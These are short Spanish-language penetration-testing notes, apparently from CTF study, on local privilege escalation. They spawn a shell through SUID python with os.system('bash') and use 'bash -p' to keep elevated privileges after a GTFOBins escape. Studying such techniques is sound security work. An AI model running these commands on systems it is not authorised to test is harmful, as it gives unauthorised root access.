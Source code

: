 
-------
Si python tiene SUID perms, ejecutamos

python3
import os
os.system("whoami")
os.system("bash")


- Cuándo he conseguido bash con gtfobins y no soy root probar con 
- Esto ejecutará una bash con los máximos privilegios
```bash
bash -p
```